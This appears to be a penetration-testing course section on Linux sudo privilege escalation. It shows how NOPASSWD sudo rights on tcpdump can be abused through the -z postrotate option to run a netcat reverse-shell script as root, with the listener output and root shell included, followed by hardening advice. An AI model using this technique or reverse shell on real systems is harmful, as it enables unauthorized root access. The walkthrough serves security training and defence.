 Sudo privileges can be granted to run commands in the context of the root user (or another account). When the `sudo` command is issued, the system will check if the user issuing the command has the appropriate rights, as configured in `/etc/sudoers`. We can use `sudo -l` to list the current user's sudo privileges, sometimes we will need the user's password to run this command, but any rights entries with the `NOPASSWD` option can be seen without entering a password.
```shell-session
$ sudo -l

Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```

Depending on the permissions it can allow us to run a program in an unintended way, resulting in privilege escalation. For example with the right to run `tcpdump`, we can take advantage of the **postrotate-command** option:
```shell-session
$ man tcpdump

<SNIP> 
-z postrorate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.
```

We can use the `-z` flag to execute shell script, gain a reverse shell as the root user or run other privileged commands. For example, we can create a shell script `.test` containing a reverse shell and execute it as follow:
```shell-session
$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

First, make a file to execute with the `postrotate-command`, adding a simple reverse shell one-liner:
```shell-session
$ cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```

Next, start a `netcat` listener on our attacking box run `tcpdump` as root with the `postrotate-command`. If all goes to plan, we will receive a root reverse shell connection:
```shell-session
$ sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

dropped privs to root
tcpdump: listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
compress_savefile: execlp(/tmp/.test, /dev/null) failed: Permission denied
0 packets dropped by kernel
```

We receive a root shell almost instantly:
```shell-session
$ nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```

[AppArmor](https://wiki.ubuntu.com/AppArmor) in more recent distributions has predefined the commands used with the `postrotate-command`, effectively preventing command execution. Two best practices that should always be considered when provisioning `sudo` rights:

|   |   |
|---|---|
|1.|Always specify the absolute path to any binaries listed in the `sudoers` file entry. Otherwise, an attacker may be able to leverage PATH abuse (which we will see in the next section) to create a malicious binary that will be executed when the command runs (i.e., if the `sudoers` entry specifies `cat` instead of `/bin/cat` this could likely be abused).|
|2.|Grant `sudo` rights sparingly and based on the principle of least privilege. Does the user need full `sudo` rights? Can they still perform their job with one or two entries in the `sudoers` file? Limiting the privileged command that a user can run will greatly reduce the likelihood of successful privilege escalation.|
